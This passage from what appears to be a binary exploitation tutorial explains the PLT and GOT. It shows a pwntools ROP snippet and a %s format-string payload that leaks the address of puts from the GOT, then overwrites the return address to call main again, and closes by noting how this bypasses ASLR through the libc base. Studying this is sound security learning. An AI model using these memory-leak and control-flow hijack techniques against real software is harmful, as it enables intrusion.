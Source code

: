 ```python
    elf.plt['puts'],
    elf.symbols['main']
)
```

> `flat()` packs all the values you give it with `p32()` and `p64()` (depending on context) and concatenates them, meaning you don't have to write the packing functions out all the time

#### %s format string

This has the same general theory but is useful when you have limited stack space or a ROP chain would alter the stack in such a way as to complicate future payloads, for example when stack pivoting.

```python
payload = p32(elf.got['puts'])      # p64() if 64-bit
payload += b'|'
payload += b'%3$s'                  # The third parameter points at the start of the buffer


# this part is only relevant if you need to call the function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])

# Send it off...

p.recvuntil(b'|')                   # This is not required
puts_leak = u32(p.recv(4))          # 4 bytes because it's 32-bit
```

### Summary

- The PLT and GOT do the bulk of static linking
- The PLT resolves actual locations in the `libc` of functions you use and stores them in the GOT
  - Next time that function is called, it jumps to the GOT and resumes execution there
- Calling `function@plt` is equivalent to calling the function itself
- An arbitrary read enables you to read the GOT and thus bypass ASLR by calculating the `libc` base